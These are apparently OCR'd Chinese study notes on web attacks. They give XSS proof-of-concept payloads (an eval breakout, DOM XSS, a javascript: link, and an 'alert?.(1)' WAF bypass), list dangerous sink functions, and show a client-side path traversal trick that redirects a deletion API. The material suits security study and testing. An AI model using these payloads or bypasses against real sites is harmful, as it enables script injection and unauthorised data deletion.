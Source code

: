 ```JavaScript
eval("console.log('"+"')-alert()//"+"')");
注释只会注释当前部分，不会全部注释掉，就是最后一个双引号之前的会注释掉
```
危险函数：settimeout，eval，location，innerhtml等

```
var name = '1' -alert(1)
典型的domxss
```

```
<a href=javascript:alert%28%29>test</a>
```

```
alert?.(1)
可以绕waf
```

CSRF的客户端路径穿越
/api/user/del/info?id=fever
可能造成的后端请求是
/api/user/del/info/id/fever
那么我们可以
```
/api/user/del/info?id=../../fever
```
造成
```
/api/user/del/fever
```
